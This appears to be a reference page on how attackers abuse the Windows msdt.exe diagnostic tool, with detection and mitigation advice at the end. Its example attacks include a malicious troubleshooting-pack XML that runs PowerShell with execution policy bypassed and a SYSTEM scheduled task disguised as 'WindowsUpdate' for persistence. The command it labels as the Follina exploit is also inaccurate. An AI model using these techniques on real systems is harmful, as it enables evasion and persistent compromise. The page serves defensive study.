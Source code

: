# msdt.exe
## What is it?
*```msdt.exe``` (Microsoft Support Diagnostic Tool) is a built-in **Windows troubleshooting utility** that helps users diagnose and fix issues with the OS.
It can **execute scripts**, **commands**, **and PowerShell scripts** via troubleshooting packs (```.diagcab``` files).
Due to its legitimate function and trust level in Windows, attackers exploit it for:*
- **Executing malicious code while bypassing security tools**
- **Loading remote payloads through ```.diagcab``` files**
- **Achieving persistence on a compromised system**

## Legitimate Usage
*Despite its potential for abuse, ```msdt.exe``` is a legitimate Windows tool used for:*
- **Troubleshooting Windows Issues** → Diagnosing network, performance, and hardware problems
- **Running Predefined Scripts** → Automating fixes for common system issues
- **Remote Assistance** → IT admins use it to run diagnostics and gather logs
*Since ```msdt.exe``` is trusted and signed by Microsoft, **it is often whitelisted by security solutions**, making it a valuable tool for attackers**.*

## How to abuse it
- **Whitelisted & Trusted Process** → Bypasses application control and security monitoring.
- **Can Execute Arbitrary Commands** → Used to launch PowerShell, CMD, or scripts.
- **Remote Code Execution (RCE) Potential** → Can fetch and run payloads from remote sources.
- **Stealthy Execution** → Runs in a non-suspicious context, avoiding security alerts.

## Example Attacks
### 1. Remote Code Execution via ```msdt.exe``` (Follina Exploit - CVE-2022-30190)
*The **Follina vulnerability** (CVE-2022-30190) allows attackers to execute malicious PowerShell commands via ```msdt.exe``` using specially crafted Office documents*.
- **Using msdt.exe to Execute Malicious Code via a Malformed URL**
```
msdt.exe -id PCWDiagnostic -skip force -path "C:\malicious\payload.xml"
```
*Executes a malicious script via MSDT’s diagnostic tool, bypassing security controls.*

### 2. LOLBin Execution - Running Commands via Troubleshooting Packs
*Attackers can use ```msdt.exe``` to execute arbitrary commands by crafting a malicious **troubleshooting pack (```.diagcab``` file)**.*
- **Creating a Malicious ```.diagcab``` to Execute PowerShell**

1️⃣ **Create a diagnostic script (```script.ps1```)**
```
Write-Output "Malicious Code Executed"
```

2️⃣ **Create an ```.xml``` configuration file (```diagnostic.xml```) to execute the script**
```
<?xml version="1.0"?>
<Package>
    <Command>
        <Run Path="powershell.exe" Argument="-ExecutionPolicy Bypass -File C:\malicious\script.ps1"/>
    </Command>
</Package>
```
3️⃣ **Execute via ```msdt.exe```**
```
msdt.exe -path "C:\malicious\diagnostic.xml" -id MaintenanceDiagnostic
```
*Executes PowerShell through MSDT without triggering standard AV detections.*

### 3. Persistence via msdt.exe and Startup Tasks
*Attackers use ```msdt.exe``` to execute malicious payloads persistently on reboot.*
**Setting Up Persistent Execution**
```
schtasks /create /tn "WindowsUpdate" /tr "msdt.exe -path C:\malicious\diagnostic.xml -id MaintenanceDiagnostic" /sc onlogon /ru SYSTEM
```
*Effect: Creates a scheduled task that runs ```msdt.exe``` at every system login.*

# Detection & Mitigation
## Detection Methods
**Monitor Execution of ```msdt.exe```**
- *Unusual child processes like ```powershell.exe```, ```cmd.exe```, or ```regsvr32.exe```*
- *Event ID 4688 (```Process Creation``` logs) with suspicious parameters*

**Detect ```.diagcab``` File Usage**
- *Monitor file access logs for **unexpected troubleshooting packs***

**Watch for Registry Changes**
- *Look for modifications to ```ms-msdt``` protocol handler (```HKEY_CLASSES_ROOT\ms-msdt```)*

# Mitigation Strategies
- **Disable ```msdt.exe``` Protocol Handler** → Prevents exploitation of ```ms-msdt``` vulnerabilities
- **Restrict Execution via Application Control** → Use **AppLocker** or **WDAC** to block ```msdt.exe```
- **Monitor Event Logs for Suspicious Execution** → Set up alerts for ```msdt.exe``` **running with unusual parameters**
- **Keep Windows Updated** → Ensure patches for **CVE-2022-30190 (Follina)** are applied

